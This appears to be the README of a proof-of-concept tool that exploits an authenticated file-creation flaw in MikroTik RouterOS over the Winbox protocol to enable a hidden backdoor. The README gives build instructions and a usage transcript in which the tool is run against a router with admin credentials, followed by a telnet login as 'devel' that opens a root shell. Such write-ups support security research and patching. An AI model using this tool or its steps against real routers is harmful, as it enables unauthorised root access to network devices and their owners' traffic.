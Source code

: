 # HackerFantastic Set Tracefile PoC over 8291

In December of 2018, [@HackerFantastic](https://twitter.com/hackerfantastic) dropped a [zero day](https://seclists.org/fulldisclosure/2018/Dec/28) that allows authenticated users to create arbitrary files on MikroTik's RouterOS. HackerFantastic pointed out that this was a create way to create the backdoor file on versions 3.x through 6.41.4. HF's PoC only showed how to manually exploit this vulnerability though. This PoC will automatically do it over the router's Winbox protocol.

This specific implementation only enables the /opt/pckg backdoor (6.41 - 6.42.0).

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage Example

```sh
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ ./hf_tracefile -i 172.20.10.13 -p 8291 -u admin --password lolwat
Success!
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ telnet -l devel 172.20.10.13
Trying 172.20.10.13...
Connected to 172.20.10.13.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2018.04.05-06:39+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5-smp #1 SMP Thu Apr 5 06:24:36 UTC 2018 i686 unknown
# cat /rw/logs/VERSION 
v6.41.4 Apr/05/2018 12:23:55
# 
```